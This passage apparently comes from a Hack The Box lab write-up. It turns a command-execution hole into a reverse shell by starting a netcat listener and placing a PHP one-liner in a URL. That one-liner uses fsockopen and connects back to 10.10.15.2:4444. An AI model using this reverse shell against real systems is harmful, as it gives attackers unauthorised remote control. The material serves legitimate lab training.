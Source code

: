 ![](/assets/img/posts/htb/05-2020/cmds.png)

This is a bit clunky and the images are wiped after a certain period of time. Let's see if we can use this command execution to get a reverse shell.

Firstly, we'll start our `netcat` listener.

```bash
$ nc -lvnp 4444
```

If all goes well, the following PHP command plugged into the URL will open a reverse shell on the box and connect back to our machine.

```bash
php -r '$sock=fsockopen("10.10.15.2",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Plugging it in as is, though, could cause some unwanted issues as the browser tries to interpret certain characters and breakpoints. Let's use an online URL encoder to help mitigate this. This simply replaces the characters with something more concise for the browser to interpret.
